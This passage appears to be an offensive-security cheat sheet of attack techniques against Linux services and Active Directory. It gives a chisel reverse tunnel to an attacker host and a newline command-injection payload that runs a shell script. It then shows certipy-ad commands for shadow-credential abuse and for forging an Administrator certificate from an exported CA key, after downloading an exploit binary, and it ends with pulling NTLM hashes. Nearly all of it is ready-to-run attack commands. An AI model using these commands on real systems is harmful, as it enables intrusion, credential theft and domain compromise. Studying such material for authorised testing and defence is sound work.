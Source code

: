 ## System Exploitation {#system-exploitation}

### Used `chisel` to forward local-only ports (e.g., internal admin panels).

```bash
# On attacker (start chisel server)
chisel server -p 9001 --reverse

# On target (connect back and expose internal service)
./chisel client <attacker-ip>:9001 R:9898:127.0.0.1:9898
```

### Command Injection via File Parameters

- API endpoint `/send-image` accepted a `filename` or `output_file` value that was unsanitized — classic command injection vector.
- Injected shellcode via newline:
```bash
"output_file": "test.jpg\nbash /tmp/shell.sh"
```
- Good targets: anything that touches system shell or dynamically builds file paths.

## Post-Exploitation {#post-exploitation}

## Active Directory {#active-directory}
### Shadow Credentials Abuse
> Shadow credentials allow creating fake certificate mappings for AD users. Once applied, you can forge a cert and authenticate as that user.

Steps:
```bash
certipy-ad shadow auto -u user -p pass -account victim -target DC -dc-ip x.x.x.x
```
Then:
```bash
certipy-ad auth -pfx forged_cert.pfx -dc-ip x.x.x.x
```
Use with `evil-winrm` or extract hashes.

### AD CS – Domain Escalation via SeManageVolumePrivilege
> If a user has `SeManageVolumePrivilege`, they can interact with NTFS alternate data streams or abuse volume-level APIs to escalate in AD CS.

Steps:
1. Upload and run exploit:
```powershell
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
```
2. Dump CA certs:
```powershell
certutil -exportPFX my "CAName" out.pfx
```
3. Forge a cert and impersonate Administrator:
```powershell
certipy-ad forge -ca-pfx out.pfx -upn administrator@domain
```
4. Auth and pull NTLM hashes.
